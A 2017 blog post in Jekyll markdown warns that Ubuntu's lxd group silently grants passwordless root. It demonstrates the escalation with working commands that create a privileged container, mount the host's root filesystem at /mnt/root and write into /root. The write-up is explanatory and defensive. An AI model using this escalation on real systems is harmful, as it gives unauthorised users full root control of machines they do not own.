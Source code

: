 ```yaml
---
layout: post
title:  "Privilege Escalation via lxd"
date:   2017-09-27 00:00:00 +0100
categories: [lxd]
description: A super simple way to escalate if you find yourself a member of the lxd group
---
```


LXD is Ubuntu's container manager utilising linux containers.  It could be considered to act in the same sphere as docker, 

The lxd group should be considered harmful in the same way the [docker](https://www.andreas-jung.com/contents/on-docker-security-docker-group-considered-harmful) group is.  Under no circumstances should a user in a local container be given access to the lxd group.  This is because it's entirely trivial to exploit.  

Firstly, I'd check if your user is a member of this group, because chances are that if you've installed it and are a sudoer, that you are.  Upon installation, lxd automatically adds every user to the lxd group.  Whilst this could be considered okay, considering that a sudoer automatically has root access, it forgets that sudo has auditing capabilities in place, and does require a password to perform any actions that would be required by root.  In fact, merely installing lxd is equivalent to adding the following in your sudoers file.

```bash
admin    ALL=NOPASSWD: ALL
```

If someone gains access to the admin account then immediately they have full root access without a password.  Consider an ssh private key escaping into the wild or an outdated service running under this user, and suddenly an attacker who still hasn't cracked the admin accounts password has full root access, all because you installed lxd. 

```bash
ubuntu@ubuntu:~$ cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
ubuntu@ubuntu:~$ cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
ubuntu@ubuntu:~$ sudo su 
[sudo] password for ubuntu:  
root@ubuntu:/home/ubuntu# apt-get install lxd 
----SNIP----
root@ubuntu:/home/ubuntu# cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
root@ubuntu:/home/ubuntu# cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
lxd:x:129:ubuntu 
```

I'm not arguing against the existence of the lxd group, merely that it increases your attack surface without notifying the user at all.  Discovering this was down to a user not realising the power this group gave their account, and whilst sudo privilege was removed, lxd access was not. 

Exploiting
-----------
So it's all good me harping on about the security risks but lets see it in action.  I only found this thanks to [#2003](https://github.com/lxc/lxd/issues/2003)

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash 
```

Here we have created an lxc container, assigned it security privileges and mounted the full disk under `/mnt/root`.  

```bash
ubuntu@ubuntu:~$ lxc exec test bash 
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit 
ubuntu@ubuntu:~$ cat /root/ICanDoWhatever 
cat: /root/ICanDoWhatever: Permission denied 
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# cat /root/ICanDoWhatever 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#  
```

So now see how we haven't once typed our password in or escalated privileges manually.  We could even remove ourselves from sudoers and do all this, making root escalation trivial.  Lesson learnt, use the lxd group with care.
